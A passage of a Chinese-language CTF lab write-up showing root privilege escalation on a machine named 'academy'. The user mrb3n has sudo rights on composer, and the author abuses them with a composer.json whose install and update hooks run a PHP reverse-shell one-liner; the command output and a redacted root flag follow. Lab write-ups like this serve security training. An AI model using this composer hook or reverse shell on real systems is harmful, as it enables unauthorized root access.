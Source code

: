## **mrb3n → root(作曲者)**

`sudo -l`命令显示`mrb3n`用户可以使用 root 权限运行 composer 命令。

```
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

有多种方法可以利用`composer`命令来提升权限。我为权限提升创建了以下`composer.json`文件:

```
{
 "scripts": {
   "post-install-cmd": [
     "php -r '$sock=fsockopen(\"127.0.0.1\",9002);exec(\"/bin/bash -i <&3 >&3 2>&3\");'"
   ],
     "post-update-cmd": [
       "php -r '$sock=fsockopen(\"127.0.0.1\",9002);exec(\"/bin/bash -i <&3 >&3 2>&3\");'"
     ]
 }
}
```

## root.txt

通过运行以下命令，我能够获得 root 访问权限:

```
**$ sudo /usr/bin/composer install**
PHP Warning:  PHP Startup: Unable to load dynamic library...snip...PHP Warning:  fsockopen(): unable to connect to 127.0.0.1:9002 (Connection refused) in Command line code on line 1
**root@academy:/home/mrb3n# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:/home/mrb3n# cat /root/root.txt 
ceb8**REDACTED**3252**
```

感谢阅读！